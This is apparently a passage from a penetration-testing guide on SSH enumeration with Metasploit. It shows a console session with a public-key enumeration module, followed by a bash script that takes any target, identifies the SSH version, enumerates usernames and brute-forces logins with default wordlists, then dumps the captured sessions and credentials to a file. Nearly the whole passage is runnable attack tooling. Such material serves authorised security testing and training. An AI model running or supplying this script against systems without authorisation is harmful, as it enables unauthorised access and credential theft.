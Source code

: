 ## Public Key Authentication

### SSH Public Key Enumeration

```bash
msf6 > use auxiliary/scanner/ssh/ssh_identify_pubkeys
msf6 auxiliary(scanner/ssh/ssh_identify_pubkeys) > show options

Module options (auxiliary/scanner/ssh/ssh_identify_pubkeys):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   RHOSTS                       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       22               yes       The target port (TCP)
   THREADS     1                yes       The number of concurrent threads
   USER_FILE                    no        File containing usernames, one per line

msf6 auxiliary(scanner/ssh/ssh_identify_pubkeys) > run
```

## Complete SSH Enumeration Workflow

### Comprehensive Assessment Script

```bash
#!/bin/bash

TARGET=$1
OUTPUT_DIR="ssh_full_enum_$(date +%Y%m%d_%H%M%S)"
mkdir -p $OUTPUT_DIR

echo "[*] Starting comprehensive SSH enumeration"
echo "[*] Target: $TARGET"
echo "[*] Output directory: $OUTPUT_DIR"

msfconsole -q -x "
workspace -a full_ssh_scan;
setg RHOSTS $TARGET;

echo '[+] Detecting SSH version';
use auxiliary/scanner/ssh/ssh_version;
run;

echo '[+] Enumerating SSH users';
use auxiliary/scanner/ssh/ssh_enumusers;
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt;
set VERBOSE true;
run;

echo '[+] Performing brute force attack';
use auxiliary/scanner/ssh/ssh_login;
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt;
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt;
set STOP_ON_SUCCESS true;
set THREADS 5;
set BRUTEFORCE_SPEED 3;
run;

echo '[+] SSH enumeration complete';
sessions;
credentials;
exit" > $OUTPUT_DIR/full_report.txt
```